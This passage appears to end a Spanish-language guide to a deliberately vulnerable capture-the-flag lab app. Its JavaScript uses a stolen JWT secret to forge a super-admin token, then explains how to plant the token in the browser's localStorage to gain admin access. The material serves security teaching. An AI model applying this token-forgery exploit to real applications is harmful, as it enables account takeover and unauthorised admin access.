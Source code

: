 ```javascript
      console.log(`🔑 Secret JWT robada: ${stolenSecret}`);
      
      // Crear token falso
      const fakeAdminData = {
        id: 9999,
        username: 'hacker_admin',
        email: 'hacker@evil.com',
        role: 'admin',
        profile: {
          fullName: 'Super Hacker Admin',
          department: 'Cybersecurity Breach'
        }
      };
      
      const fakeToken = api.createFakeToken(fakeAdminData);
      console.log("✅ Token falso de super-admin creado");
      console.log("🎭 Para usar: localStorage.setItem('token', fakeToken) y recarga la página");
      
      // Guardar para uso manual
      (window as any).fakeAdminToken = fakeToken;
      (window as any).fakeAdminData = fakeAdminData;
      
    } catch (error) {
      console.log(`❌ Error en explotación JWT: ${error.message}`);
    }
  }
};

// Ejecutar demostración completa
CFTVulnerabilityDemo.runCompleteDemo();
```

---

*Esta guía actualizada está específicamente adaptada para la implementación real del CFT basado en `services/api.ts`. Todas las vulnerabilidades y explotaciones han sido verificadas contra el código real proporcionado.*